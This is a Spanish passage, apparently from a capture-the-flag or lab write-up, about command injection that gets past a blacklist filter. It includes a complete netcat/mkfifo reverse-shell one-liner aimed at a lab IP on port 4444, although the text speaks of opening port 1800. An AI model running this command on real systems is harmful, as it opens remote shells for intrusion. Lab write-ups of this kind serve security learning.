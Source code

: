 Podemos observar que este payload va a ejecutar el comando id de manera remota en el servidor. Ahora decodificaremos en URL este payload y lo probaremos.

![](/assets/images/dopsty/image019.png)

![](/assets/images/dopsty/image020.png)

Podemos observar que logramos omitir los caracteres prohibidos listados en la blacklist.

Ahora ajustaremos el payload para generar una reverse Shell con el fin de obtener acceso al sistema destino, pero antes habilitaremos el puerto 1800 en nuestro sistema para escuche la conexión entrante de la reverse Shell.

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.123.194 4444 >/tmp/f`
